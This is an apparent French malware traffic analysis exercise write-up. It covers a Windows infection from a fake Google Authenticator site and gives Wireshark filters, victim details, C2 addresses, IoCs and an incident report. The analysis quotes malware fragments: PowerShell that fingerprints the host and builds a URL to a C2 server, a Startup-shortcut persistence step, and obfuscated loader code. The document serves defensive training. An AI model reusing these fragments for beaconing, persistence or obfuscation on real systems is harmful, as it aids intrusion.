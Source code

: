 ## 🕵️‍♂️ MTA-2025-01-22

🔍[Source](https://www.malware-traffic-analysis.net/2025/01/22/index.html) 


---

### 📌 Contexte

- Un utilisateur télécharge un faux logiciel (Google Authenticator) depuis un site frauduleux, entraînant l’infection de son poste Windows et la communication avec plusieurs serveurs C2. 
- Ce document contient une **analyse 'step-by-step' avec captures d’écran** pour chaque question.
  
<img src="images/open.png" alt="open" width="800"/>

---

### 🧰 Outils utilisés

- [Wireshark](https://www.wireshark.org/download.html)
- [Kali Linux](https://www.kali.org/)
- [VMware](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion)
- [VirusTotal](https://www.virustotal.com/gui/home/upload)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [CyberChef](https://gchq.github.io/CyberChef/)

---

### 📝 Questions & Analyse

#### Q1. What is the IP address of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Ouvrir le PCAP (via terminal ou fichier directement)

  - Étape 2 : Filtrer le fichier avec le Basic filter pour trouver la première requête HTTP suspecte

        (http.request or tls.handshake.type == 1) and !(ssdp)
</details>


<details>
  <summary>✅ Réponse</summary>
  
`10.1.17.215`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q1.png" alt="q1" width="800"/>
</details>


---

#### Q2. What is the mac address of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Filtrer le fichier avec le Basic filter pour trouver la première requête HTTP suspecte

        (http.request or tls.handshake.type == 1) and !(ssdp)
</details>


<details>
  <summary>✅ Réponse</summary>
  
`00:d0:b7:26:4a:74`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q2.png" alt="q2" width="800"/>
</details>


---

#### Q3. What is the host name of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Dans certains PCAPs, tu peux retrouver le nom d’hôte Windows de la victime grâce au trafic **NBNS ou SMB/SMB2**.  

        nbns or smb or smb2 

</details>


<details>
  <summary>✅ Réponse</summary>
  
`DESKTOP-L8C5GSJ`  
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q3.png" alt="q3" width="800"/>
</details>


---

#### Q4. What is the user account name from the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Filtrer les paquets Kerberos provenant de la machine infectée.
  
          ip.src == 10.1.17.215 and kerberos.CNameString
    
  - Étape 2 : Inspecter le champ `CNameString` dans le panneau *Packet Details* pour relever le nom d’utilisateur.
</details>


<details>
  <summary>✅ Réponse</summary>
  
`shutchenson`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q4.png" alt="q4" width="800"/>
</details>


---

#### Q5. What is the likely domain name for the fake Google Authenticator page?
<details>
    <summary>💡 Étapes</summary>
    
- Étape 1 : Appliquer un filtre pour isoler les requêtes DNS émises par l’hôte `10.1.17.215`.
  
      ip.src == 10.1.17.215 && (dns && dns.flags.response == 0) && dns.qry.name matches "(auth|google|authenticator)"
  
      ⚠️ dns.flags.response == 0 pour ne filtrer que les DNS queries initiées par le client.
- Étape 2 : Repérer le ou les domaines suspects qui imitent Google Authenticator.

      ⚠️ Un domaine avec une faute de frappe évidente (ex. double "o") est généralement un signe de domaine malicieux.

- Étape 3 : Vérifier les réponses DNS pour obtenir les adresses IPv4 résolues par ces domaines.
    
        (dns.qry.name == google-authenticator.burleson-appliance.net || dns.qry.name == authenticatoor.org) && dns.flags.response == 1 && dns.qry.type == 1

      ⚠️ dns.flags.response == 1 capture uniquement les réponses (!= client).
      ⚠️ dns.qry.type == 1 limite aux enregistrements A (== IPv4).
  
- Étape 4 : Vérifier la réputation des domaines/IP suspects via [VirusTotal](https://www.virustotal.com/gui/home/upload).



</details>  

<details>
  <summary>✅ Réponse</summary>
  
`google-authenticator.burleson-appliance.net`

`authenticatoor.org`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q5a.png" alt="q5a" width="800"/>
<img src="images/q5b.png" alt="q5b" width="800"/>
<img src="images/q5c.png" alt="q5c" width="800"/>
<img src="images/q5d.png" alt="q5d" width="800"/>
<img src="images/q5e.png" alt="q5e" width="800"/>
<img src="images/q5f.png" alt="q5f" width="800"/>
<img src="images/q5g.png" alt="q5g" width="800"/>
<img src="images/q5h.png" alt="q5h" width="800"/>
<img src="images/q5i.png" alt="q5i" width="800"/>
<img src="images/q5j.png" alt="q5j" width="800"/>
<img src="images/q5k.png" alt="q5k" width="800"/>
</details>


<details>
  <summary>🔗 Liens VirusTotal</summary>
    
[google-authenticator.burleson-appliance[.]net](https://www.virustotal.com/gui/domain/google-authenticator.burleson-appliance.net)

[authenticatoor[.]org](https://www.virustotal.com/gui/domain/authenticatoor.org)

[104.21.64[.]1](https://www.virustotal.com/gui/ip-address/104.21.64.1)

[82.221.136[.]26](https://www.virustotal.com/gui/ip-address/82.221.136.26)

</details>


---


#### Q6. What are the IP addresses used for C2 servers for this infection?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Appliquer un filtre pour identifier toutes les adresses IP sortants de l’hôte infecté.

        ip.src == 10.1.17.215 && (http.request or tls.handshake == 1 or (tcp.flags.syn == 1 && tcp.flags.ack == 0)) && !(ssdp) && ip.dst != 10.1.17.0/24
        
  - Étape 2 : Filtrer les adresses IP internes/légitimes
    
          ⚠️ Trafic vers réseau interne (10.1.17.0/24)
          ⚠️ Services connus comme Microsoft, Google, Edge, etc.

  - Étape 3 : Vérifier la réputation des adresses IP suspectes via [VirusTotal](https://www.virustotal.com/gui/home/upload).
</details>


<details>
  <summary>✅ Réponse</summary>
  
`5.252.153[.]241`

`45.125.66[.]32`

`45.125.66[.]252`

</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q6a.png" alt="q6a" width="800"/>
<img src="images/q6b.png" alt="q6b" width="800"/>
<img src="images/q6c.png" alt="q6c" width="800"/>
</details>

<details>
  <summary>🔗 Liens VirusTotal</summary>

[5.252.153[.]241](https://www.virustotal.com/gui/ip-address/5.252.153.241)

[45.125.66[.]32](https://www.virustotal.com/gui/ip-address/45.125.66.32)

[45.125.66[.]252](https://www.virustotal.com/gui/ip-address/45.125.66.252)

</details>


---

### 🕵️‍♂️ Rapport d'incident
<details>

    
#### 📌 Résumé

Le 2025-01-22 à 15:03 UTC, un poste Windows utilisé par l’utilisateur `shutchenson` a été compromis suite au téléchargement d’un logiciel frauduleux depuis un site imitant Google Authenticator (`authenticatoor[.]org`).

Le malware a installé plusieurs fichiers malveillants, mis en place un mécanisme de persistance au démarrage, et établi une communication avec plusieurs serveurs de command-and-control (C2) pour assurer un contrôle continu de la machine compromise.

---

#### 🖥️ Détails de la victime

- Nom d'utilisateur : `shutchenson`
- Nom d'hôte : `DESKTOP-L8C5GSJ`
- IP locale : `10.1.17[.]215`
- Adresse MAC : `00:d0:b7:26:4a:74`

---
#### 🚨 Indicateurs de compromission (IoCs)

Domaines/URLs suspects :
- `google-authenticator.burleson-appliance[.]net`
- `authenticatoor[.]org` 

Serveurs C2 :
- `5.252.153[.]241`
- `45.125.66[.]32`
- `45.125.66[.]252`

Ports :
- `TCP/80 (HTTP)`
- `TCP/443 (HTTPS)`

Fichiers suspects :
- `TeamViewer[.]exe` 
- `TV[.]dll` 
- `pas[.]ps1`
- `skqllz[.]ps1`

Persistance :
- Raccourci dans le dossier Startup `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\TeamViewer.ln`

---

#### 🔍 Analyse Détaillée
<details>
    
1️⃣ Extraction et exécution de scripts

- Le client effectue une requête `GET /api/file/get-file/264872` et récupère un composant HTML contenant un **VBScript**.
- Le VBScript télécharge et exécute un script PowerShell depuis `http://5.252.153[.]241:80/api/file/get-file/29842.ps1`.
- L’exécution est masquée grâce à `-WindowStyle Hidden` et `start /min`.
- Ouverture d’un site légitime (https://azure.microsoft.com) pour distraire l’utilisateur.
- Gestion des erreurs avec `On Error Resume Next` afin d’assurer la continuité du script.

2️⃣ PowerShell initial (`29842.ps1`)

- Contient une chaîne Base64 dissimulée via `.replace()`.
- Décodage et exécution dynamique avec `Invoke-Expression`.
- Identification de l’hôte **via le numéro de série du disque C:**

```$fso = New-Object -Com "Scripting.FileSystemObject"
$SerialNumber = $fso.GetDrive("c:\").SerialNumber
$SerialNumber = [convert]::toint64($SerialNumber,16)
$serial = $SerialNumber
$ip = 'http://5.252.153.241/'
$url = $ip+$serial
```

- Boucle infinie de téléchargement/exécution de commandes depuis C2, avec ajout de pauses de 5 secondes pour limiter la détection.

3️⃣ Téléchargement de fichiers et persistance

- Création du dossier `C:\ProgramData\huo` et téléchargement de plusieurs fichiers :
- `TeamViewer.exe` → exécutable principal
- `Teamviewer_Resource_fr.dll` 
- `TV.dll` 
- `pas.ps1`
- Création d’un raccourci dans le dossier Startup pour assurer la persistance (`.lnk`):

```
$shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"
Create-Shortcut $startupFilePath $shortcutPath
```

4️⃣ PowerShell furtif (`skqllz.ps1`)

- Décodage Base64 pour générer le script principal ([CyberChef](https://gchq.github.io/CyberChef/) pour décodage)
  - Script dissimulé avec des variables aléatoires, concaténations et remplacement de caractères.
```
$NOtpWmSIdODGSpZw = 'dXNpb'
$AwoVYrdnaRqwQwIR = ('PjbXUKllmrzPjbXUKmcgU' -split 'PjbXUK')[2]
$bipxzxdxTeWltRuZETo = $NOtpWmSIdODGSpZw + $AwoVYrdnaRqwQwIR
$AkEiJsIqpXZniGUAcwgi = '3lzdG'
$GQXMEUFkfQKNrHz = $AkEiJsIqpXZniGUAcwgi
$lNcnDkYznZYNGS = 'V}t}O}w}p}'.replace('}', '')
$roSPFHOnzUB = $lNcnDkYznZYNGS
$xtZaRGRfwoDKOIahvtc = '1&c&2&'.replace('&', '')
$IDdoQNfyQZT = 'luZ'
$XiGbBTVOcETNtwj = ('qrTLBVPRRAHmqrTLBVPyBTeXqrTLBVPvJTdeqrTLBVPPDQbxSu' -split 'qrTLBVP')[2]
$bPJnndNVDE = $xtZaRGRfwoDKOIahvtc + $IDdoQNfyQZT + $XiGbBTVOcETNtwj
$iMomIPCvExLjuGt = 'N$0$Z$W$'.replace('$', '')
$aMCdlKxvWQWiMMrpeNo = '0uR'

```

- Exécution en arrière-plan via `Start-Process`.
- Envoi régulier de logs au serveur C2 avec la fonction `Send-Log`.




5️⃣ Investigation des fichiers dans [VirusTotal](https://www.virustotal.com/gui/home/url)

<img src="images/export.png" alt="export" width="800"/>

- Le fichier `[TeamViewer[.]exe]` a été téléchargé directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `904280f20d697d876ab90a1b74c0f22a83b859e8b0519cb411fda26f1642f53e`
- Type : Win32 EXE file
- Community score : flagged 0 sur 72 = probablement clean (ou non reconnu)
- [Lien VirusTotal](https://www.virustotal.com/gui/file/904280f20d697d876ab90a1b74c0f22a83b859e8b0519cb411fda26f1642f53e/details)

---

- Le fichier `[TeamViewer_Resource[.]dll]` a été téléchargé directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `9634ecaf469149379bba80a745f53d823948c41ce4e347860701cbdff6935192`
- Type : Win32 DLL file
- Community score : flagged 0 sur 72 = probablement clean (ou non reconnu)
- [Lien VirusTotal](https://www.virustotal.com/gui/file/9634ecaf469149379bba80a745f53d823948c41ce4e347860701cbdff6935192/details)

---

- Le fichier `[TV[.]txt]` a été téléchargé directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `3448da03808f24568e6181011f8521c0713ea6160efd05bff20c43b091ff59f7`
- Type : Win32 DLL file
- Community score : flagged par 44 sur 72 = probablement malveillant
- [Lien VirusTotal](https://www.virustotal.com/gui/file/3448da03808f24568e6181011f8521c0713ea6160efd05bff20c43b091ff59f7/details)

---

- Le fichier `pas[.]ps1` a été téléchargé directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `a833f27c2bb4cad31344e70386c44b5c221f031d7cd2f2a6b8601919e790161e`
- Type : TXT file
- Community score : flagged par 24 sur 60 = probablement malveillant
- [Lien VirusTotal](https://www.virustotal.com/gui/file/a833f27c2bb4cad31344e70386c44b5c221f031d7cd2f2a6b8601919e790161e/details)




</details>

---

#### 🕵️ MITRE ATT&CK Mapping
<details>
    
| Tactique                     | Technique (ID)                              | Description |
|-------------------------------|--------------------------------------------|------------------|
| Initial Access                | [Drive-by Compromise (T1189)](https://attack.mitre.org/techniques/T1189/)                | Téléchargement du logiciel frauduleux depuis un site imitant Google Authenticator |
| Execution                     | [PowerShell (T1059.001)](https://attack.mitre.org/techniques/T1059/001/)                     | Exécution de scripts PowerShell dissimulés |
| Persistence                   | [Startup Items (T1547.001)](https://attack.mitre.org/techniques/T1547/001/)                  | Raccourci dans le dossier Startup pour exécution automatique |
| Defense Evasion               | [Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/)   | Scripts PowerShell et VBScript fortement dissimulés |
| Command and Control (C2)      | [Web Service (T1071.001)](https://attack.mitre.org/techniques/T1071/001/)                    | Communication avec serveur C2 via HTTP |
| Discovery                     | [System Information Discovery (T1082)](https://attack.mitre.org/techniques/T1082/)      | Récupération du numéro de série du disque pour identification unique |

</details>

---

#### 🛡️ Actions correctives recommandées

1. **Isolation** : déconnecter le poste pour stopper toute propagation.
2. **Blocage des IP malveillantes** : filtrer les adresses C2 sur le pare-feu et la passerelle.
3. **Analyse forensique** : identifier tous les fichiers et scripts malveillants sur le poste et le réseau.
4. **Audit des logs** : détecter toute activité suspecte supplémentaire.
5. **Renforcement des défenses** : mettre à jour antivirus, solutions EDR et restrictions PowerShell.
6. **Sensibilisation des utilisateurs** : rappeler les bonnes pratiques pour éviter les téléchargements depuis des sources non fiables.

---

#### 🔹 Conclusion

L’incident a été limité à un seul poste à ce stade, mais le potentiel de propagation et d’exfiltration de données reste élevé. La mise en œuvre rapide des actions correctives est cruciale pour sécuriser l’environnement et prévenir d’éventuelles attaques futures.
</details>

